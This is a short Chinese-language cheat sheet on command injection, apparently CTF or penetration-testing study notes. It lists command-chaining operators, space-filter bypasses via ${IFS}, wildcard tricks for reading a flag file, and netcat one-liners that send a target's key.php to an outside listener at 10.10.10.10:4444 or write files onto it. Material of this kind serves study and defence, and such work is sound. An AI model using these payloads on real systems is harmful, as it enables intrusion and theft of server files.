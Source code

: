 # 命令注入

- 使用条件
    - 命令由输入字符串拼接
    - 输入过滤存在漏洞
    - 命令被执行
- 常见注入策略
    - 管道符与连接符导致恶意命令插入
        - `||`，左侧为假，执行右侧
        - `|`，管道符，输出作为输入
        - `&&`，左侧为真，执行右侧
        - `&`， 先执行右侧，后执行左侧，左侧作为后台进程
    - 空格绕过
        - Linux环境下访问网站
            - `${IFS}`
            - `<>`
    - 模糊匹配
        - Linux环境下访问网站
            - `/???/c?t f?ag.txt` 模糊匹配缺失的字符
            - `cat index.* *` 模糊匹配格式
    - 利用netcat进行接发数据
        - 输出服务端文件内容
            - `nc 10.10.10.10 4444 < /var/www/html/key.php` 靶机执行内容
            - `nc -l 4444 > key.txt` 本地接收
        - 向服务端写入内容
            - `nc -lvp 9999` 本地监听端口，写入内容
            - `nc ip port > key.php` 靶机接收内容
- 更多细节
    
    [命令注入](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)